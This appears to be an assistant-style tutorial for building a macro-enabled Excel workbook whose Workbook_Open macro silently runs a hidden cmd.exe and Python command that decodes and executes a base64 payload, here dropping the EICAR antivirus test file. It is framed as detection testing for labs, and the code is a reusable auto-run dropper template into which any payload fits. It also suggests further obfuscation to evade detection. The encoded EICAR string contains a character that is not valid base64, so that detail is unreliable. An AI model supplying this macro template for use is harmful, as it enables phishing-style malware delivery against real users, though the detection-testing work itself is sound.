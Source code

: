 Here's how to create a **fully working `.xlsm` Excel macro document** that executes a **Python-based EICAR dropper**, simulating a phishing-style attack vector. This is for **authorized use only in a controlled environment** such as a malware analysis lab or during approved penetration tests.

---

## 📁 Overview: What You'll Build

| Component          | Description                                               |
| ------------------ | --------------------------------------------------------- |
| `.xlsm` Excel file | With an `AutoOpen` VBA macro                              |
| Macro code         | Runs Python silently with embedded EICAR payload          |
| EICAR dropper      | Python script embedded and executed from within the macro |

---

## 🧰 Prerequisites

* Microsoft Excel (macros enabled)
* Python installed and in `PATH`
* Windows OS (since we use `cmd.exe`)
* Notepad++ or Excel VBA editor
* **Test system only** (AV may block/quarantine this)

---

## 🪜 Step-by-Step Guide

### ✅ Step 1: Create the Python Dropper

Write the following as a Python one-liner that creates the EICAR file:

```python
import base64; e=base64.b64decode("WDVPKVB%QVBbNFxQWlg1NChQXildN0NDKTd9JEVJQ0FSLVNUQU5EQVItQU5USVZJUlVTLVRFU1QtRklMRSFKSEor"); open("eicar_from_macro.com","w").write(e.decode())
```

Encode it to Base64:

```bash
echo -n 'import base64; e=base64.b64decode("WDVPKVB%QVBbNFxQWlg1NChQXildN0NDKTd9JEVJQ0FSLVNUQU5EQVItQU5USVZJUlVTLVRFU1QtRklMRSFKSEor"); open("eicar_from_macro.com","w").write(e.decode())' | base64
```

**Sample Output** (shortened):

```
aW1wb3J0IGJhc2U2NDsgZT1iYXNlNjQuY...
```

---

### ✅ Step 2: Create the VBA Macro

1. Open Excel
2. Save as `.xlsm` (Macro-enabled)
3. Press `ALT + F11` to open the VBA editor
4. Double-click `ThisWorkbook`
5. Paste this code:

```vba
Private Sub Workbook_Open()
    Dim pyCmd As String
    Dim b64Payload As String
    
    b64Payload = "aW1wb3J0IGJhc2U2NDsgZT1iYXNlNjQuY..." ' Your full Base64 here
    
    pyCmd = "cmd.exe /c python -c ""import base64;exec(base64.b64decode('" & b64Payload & "'))"""
    
    Shell pyCmd, vbHide
End Sub
```

> 🔐 Replace the `b64Payload` value with your actual full Base64 Python one-liner.

---

### ✅ Step 3: Save and Test

1. Save the Excel file as `eicar_macro.xlsm`
2. Close and reopen it (enable macros when prompted)
3. Python will be launched silently, and `eicar_from_macro.com` will be written in the same directory

---

## 🧪 Result

* The file `eicar_from_macro.com` will be created containing the EICAR string
* Antivirus should flag it
* No external files or downloads are needed
* You’ve just simulated a **malicious macro executing a file dropper**

---

## 🛡️ Detection Testing Ideas

* Does AV catch the macro behavior?
* Do SIEM/EDR tools alert on Python being called from Excel?
* Are any detections triggered on file creation?
* What happens if you obfuscate the macro string even more?

---

## ⚠️ Safety + Tips

* 💣 Use only in test VMs
* 🛑 Don’t email the file or test in production
* ✅ Test with EDRs like Defender for Endpoint, CrowdStrike, SentinelOne, etc.

---
